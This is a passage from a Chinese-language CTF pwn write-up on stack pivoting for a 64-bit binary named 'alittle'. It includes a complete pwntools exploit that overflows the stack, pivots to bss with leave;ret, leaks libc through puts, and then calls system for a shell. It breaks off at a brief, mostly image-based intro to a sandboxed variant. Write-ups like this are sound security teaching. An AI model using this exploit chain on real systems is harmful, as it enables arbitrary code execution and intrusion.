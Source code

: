 ![3](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-db75449e18b337a0.png)

题目很简单，0x20的栈空间，能输入0x30
### 思路
这道题和我一般认识的栈迁移有不同，似乎利用了一种固定化的结构
利用栈溢出设置read位置的同时，还设置了rop链的执行。调试了好几遍才搞懂为什么，算是打开了一种新思路吧。
（一条栈溢出，一条不溢出）
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-838101cddfcd96ae.png)

### EXP

```python
from pwn import *
r=process('./alittle')
elf=ELF('./alittle')

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
bss=0x601000+0x600
rdi=0x00000000004005d3
leave=0x40054B # read
ret=0x400568
r.recv()
pay='a'*0x20+p64(bss)+p64(leave)#为了下次不溢出时能ret执行rop，固定rsp
r.send(pay)

pay1='a'*0x20+p64(bss+0x20)+p64(leave)
#pay1是写在bss-0x20处的，而read则是往bss处写入rop链并执行
r.send(pay1)

pay2=p64(0)+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400537)
# ret到p64(rdi)的原因就是pay设置好的ret地址
# gdb.attach(r)
r.send(pay2)
# leak libc
leak=u64(r.recv(6)+'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
sys=base+libc.sym['system']
sh=base+0x1b3e1a
# 设置read输入位置
pay3='a'*0x20+p64(bss+0x40)+p64(leave)#rbp
r.send(pay3)
# 再由read函数ret调用rop链
pay4=p64(0)+p64(rdi)+p64(sh)+p64(ret)+p64(sys)
r.send(pay4)
r.interactive()
```
## 例题5 atitile-up(64位)
### 思路
和例题4一模一样，只是开了沙箱，这个板子值得记一下
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-b5405a279fe1c744.png)
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-2ad54bbd8c7674d1.png)
